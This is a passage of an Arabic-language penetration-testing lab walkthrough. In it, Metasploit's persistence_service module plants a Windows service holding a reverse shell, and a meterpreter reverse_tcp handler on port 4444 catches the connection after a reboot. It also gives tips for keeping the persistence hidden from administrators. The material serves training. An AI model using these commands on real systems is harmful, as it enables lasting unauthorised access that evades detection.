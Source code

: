 طبعا نشوف الان ايش الصلاحيات الي معنا او بالاصح ايش اليوزر الي معنا عن طريق هذا الامر  
```bash
getuid  
```  

نلاحظ انه معنا يوزر Administrator  

طبعا مصطلح Persistence انك تحاول متى ماحبيت تتصل بالتارقت يكون عندك القدرة انك تتصل  
بمعنى لو طفى جهاز التارقت واشتغل اكيد بنحتاج نعيد الاكسبلويت كامل لو استخدمت الـ Persistence وتكنيكاته ماراح تحتاج تعيد الاستغلال والطرق فيه كثيره لكن اليوم بنشوف وحده منهم  

طبعا راح نحاول نطبق هذا التكنيك عن طريق هذا الموديول وانه بيسوي لنا service جديده  

```bash
use exploit/windows/local/persistence_service  
set SESSION 1  
exploit  
```  

طبعا الان نشوف انه فعلا سوا لنا الخدمة وحقن فيها الشيل حقنا وجدولها انه مثلا تتصل كل دقيقه او كل يوم او اي وقت اخر  

راح نجرب الان نتصل عن طريق الخدمة الي سواها لنا الموديول الي فوق  

طبعا راح نتنصت على نفس البورت الي حقناه داخل الخدمة الي سويناها مسبقا  

```bash
msfconsole  
use exploit/multi/handler  
set LHOST 10.10.1.2  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LPORT 4444  
exploit  
```  

طبعا الان لابد يكون نفس المعلومات الي موجوده او الي اعطينها الموديول الي سوا لنا الـ Service  

راح نسوي reboot للمشين عشان نشوف هل فعلا بيجينا اتصال ولا لا  

```bash
session -i 1  
reboot  
```  

نشوف الان بالصفحة الثانيه الي فيها الـ multi/handler جانا اتصال ووضعنا تمام  

طبعا لو اكتشف الـ Persistence تبعك وحذفه التارقت راح يقطع اتصالك فحاول تختار الطريقة الي نادر انه ممكن يشك فيها الـ Administrator تبع النظام  


طبعا تقدر تسوي اكثر من تكنيك بنفس الوقت بحيث لو قفط وحده بيكون عندك طريقة اخرى وهكذا  

الى هنا انتهى اللاب نشوف الي بعده  

---

راح نبداء باللاب الرابع الي هو  

Windows: Enabling Remote Desktop 
---------------------------------|
